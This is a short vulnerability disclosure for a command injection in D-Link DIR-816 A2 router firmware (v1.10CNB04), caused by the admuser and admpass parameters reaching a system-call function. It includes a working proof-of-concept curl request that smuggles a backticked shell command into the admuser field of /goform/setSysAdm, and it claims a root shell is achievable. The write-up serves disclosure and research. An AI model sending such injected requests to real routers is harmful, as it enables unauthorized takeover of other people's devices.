 # D-link DIR-816 A2_v1.10CNB04.img Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ： [http://tsd.dlink.com.tw/GPL.asp](http://tsd.dlink.com.tw/GPL.asp)

## 1. Affected version

![image-20220409142816775](img/image-20220409142816775.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220409142859388](img/image-20220409142859388.png)

The content obtained by the program through admuser and admpass parameters is passed to V3 and V4, and then V3 and V4 are brought into the dosystem function. There is a command injection vulnerability

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware DIR-816 A2_v1.10CNB04.img
2. Attack with the following POC attacks

```
curl -i -X POST http://192.168.0.1/goform/setSysAdm -d tokenid=xxxx -d 'admuser=`ls > /tmp/456`'
```

![image-20220405112133823](img/image-20220405112133823.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell